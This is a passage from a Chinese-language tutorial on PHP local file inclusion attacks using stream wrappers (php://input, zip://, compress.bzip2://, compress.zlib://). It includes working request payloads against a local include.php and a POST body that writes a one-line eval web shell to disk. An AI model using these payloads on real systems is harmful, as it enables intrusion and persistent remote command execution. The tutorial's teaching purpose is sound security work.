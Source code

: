   2. `php://input + [POST DATA]`执行php代码

     ```php
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php phpinfo(); ?>
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBh)

     若有写入权限，写入一句话木马

     ```php
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBi)

- **参考**：[https://php.net/manual/zh/wrappers.php.php](https://link.segmentfault.com/?enc=M1juvEoIxwaVBQUt7Tp6fw%3D%3D.tNdVZ1zzLh2RIgxaZ1qC%2FCbpUriZlH06YCeNMzk7XwFU2YRne3WaF0zmzDoHwkik)

# zip:// & bzip2:// & zlib://协议

- **条件**：

  - `allow_url_fopen`:off/on
  - `allow_url_include` :off/on

- **作用**：`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。

- **示例**：

  1. `zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]`（#编码为%23）

     压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

     ```http
     http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBj)

  2. `compress.bzip2://file.bz2`

     压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）

     ```http
     http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBt)

  3. `compress.zlib://file.gz`

